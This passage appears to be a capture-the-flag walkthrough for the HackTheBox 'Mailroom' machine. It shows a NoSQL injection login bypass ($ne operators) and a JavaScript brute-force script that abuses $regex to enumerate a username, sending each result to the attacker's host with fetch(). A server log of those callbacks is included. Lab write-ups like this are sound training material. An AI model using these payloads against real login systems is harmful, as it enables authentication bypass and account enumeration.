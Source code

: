 ```
{"success":false,"message":"Invalid email or password"}
```

Try NoSQL Injection, change last line in `nosql.js`

```jsx
http.send("email[$ne]=test@example.de&password[$ne]=abc");
```

```
{"success":false,"message":"Invalid input detected"}{"success":true,"message":"Check your inbox for an email with your 2FA token"}
```

### Brute Force Username for Email

```jsx
async function callAuth(mail) {
    var http=new XMLHttpRequest();
    http.open('POST', 'http://staff-review-panel.mailroom.htb/auth.php', true);
    http.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    http.onload = function () {
        if (/"success":true/.test(this.responseText)) {
            notify(mail);
            cal('.0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz-!', mail);
        }
    };
    http.send("email[$regex]=.*"+ mail +"@mailroom.htb&password[$ne]=abc");
}
function notify(mail) {
    fetch("http://10.10.14.56/?name=" + mail);
}
var chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz-!'
function cal(chars, mail) {
    for (var i = 0; i < chars.length; i++) {
        callAuth(chars[i] + mail)
    }
}
cal(chars, "")
```

The script ends after some time, so add in `cal(chars, "")` the output you got. Repeat that after you dont get any output back.

- Server Output
    
    ```
    10.129.229.1 - - [18/Apr/2023 11:47:22] "GET /brute_user.js HTTP/1.1" 200 -
    10.129.229.1 - - [18/Apr/2023 11:47:22] "GET /?name=tan HTTP/1.1" 200 -
    10.129.229.1 - - [18/Apr/2023 11:47:22] "GET /?name=stan HTTP/1.1" 200 -
    10.129.229.1 - - [18/Apr/2023 11:47:22] "GET /?name=.tan HTTP/1.1" 200 -
    ```
    
    Add `cal(chars, "tan")` 
    
